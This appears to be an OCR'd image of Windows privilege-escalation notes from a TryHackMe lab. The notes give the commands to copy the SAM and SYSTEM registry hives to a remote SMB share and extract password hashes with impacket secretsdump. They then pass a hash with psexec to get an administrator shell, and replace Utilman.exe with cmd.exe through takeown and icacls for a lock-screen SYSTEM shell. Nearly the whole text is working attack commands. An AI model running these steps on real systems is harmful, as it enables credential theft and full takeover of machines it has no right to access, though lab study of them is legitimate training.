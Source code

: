 # Copy files from target machine

C:\> copy C:\Users\THMBackup\sam.hive \\10.2.18.222\public\

C:\> copy C:\Users\THMBackup\system.hive \\10.2.18.222\public\

  

# retrieve password hashes

python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL

  

  

# Pass the hash to gain admin access

python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.10.210.117

  

# Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:

  

# Privilege: SeTakeOwnership

# User can take ownership of any file

# Example, own utilman.exe

C:\> takeown /f C:\Windows\System32\Utilman.exe

  

# Update your privilege level

icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F

  

# Now replace the binary

copy cmd.exe utilman.exe

  

# Now when we click on 'Ease of Access' on lock screen, we will get cmd with admin access
